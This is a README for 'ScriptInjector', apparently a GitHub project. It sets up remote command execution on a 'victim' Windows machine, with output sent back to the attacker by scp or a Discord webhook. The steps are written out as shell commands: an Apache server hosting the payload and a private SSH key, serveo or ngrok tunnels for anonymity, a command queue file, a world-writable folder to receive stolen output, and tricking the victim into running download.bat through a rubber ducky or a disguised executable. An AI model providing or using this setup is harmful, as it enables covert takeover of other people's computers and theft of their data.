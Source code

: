 # ScriptInjector
Inject and run scripts on remote computers and get the output back via scp or a discord webhook
For educational purposes only.

## How it works
1. Clone this repo and cd into it
    ```
    git clone https://github.com/emaa10/ScriptInjector.git
    cd ScriptInjector
    ```
2. Install packages
    ```
    sudo apt install -y apache2 openssh-client screen
    sudo systemctl enable ssh
    ```
3. Setup an apache2 webserver and put the files under `/src` into `/var/www/html/`
    ```
    sudo mv src /var/www/html
    ```
4. Generate an ssh-key to allow your victim to scp into your system, it is recommended to use another user with fewer permissions 
    ```
    ssh-keygen -t rsa
    ```
    Press enter on all questions.
    ```
    cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
    mv ~/.ssh/id_rsa ~/.ssh/id_rsa.pub /var/www/html/
    ```
5. Setup port forwarding or serveo.net/ngrok to stay anonymous
    1. forward port 80 and 22 (http and ssh)
    2. create a no-ip or a subdomain of your port-forwarding service
    3. if you're using serveo, you might need to generate a second ssh-key you don't move out of the .ssh directory and connect your gmail account
6. Create an ssh config file for your victim
    1. use the template "config" file
    2. if you're using serveo.net to forward your IP, use the "config_serveo" template
        - since serveo forwards IPs using ssh, you need to configure ProxyJump for serveo.
        - I recommend serveo because of this, it keeps your connection secure
        - You need to generate a hostname (see the launch_serveo.txt file for serveo) and just put it into "your_hostname" in your config file
    3. move your config file into /var/www/html/
7. Start serveo (or a different port forwarding service)
    - See the launch_serveo.txt file for 2 commands to forward ssh and http to your_hostname.serveo.net
    - You can use screen to start multiple serveo forwarding simultaneously
8. Create folders and the input.txt
    ```
    touch /var/www/html/input.txt
    echo "dir C:\Users" >> /var/www/html/input.txt
    sudo mkdir /mnt/income
    sudo chown www-data /mnt/income
    sudo chgrp www-data /mnt/income
    sudo chmod 777 /mnt/income
    ```
9. Get the victim to open the download.bat
    - That's your part. There are many options: Using a rubberducky script or converting the bat file into an executable.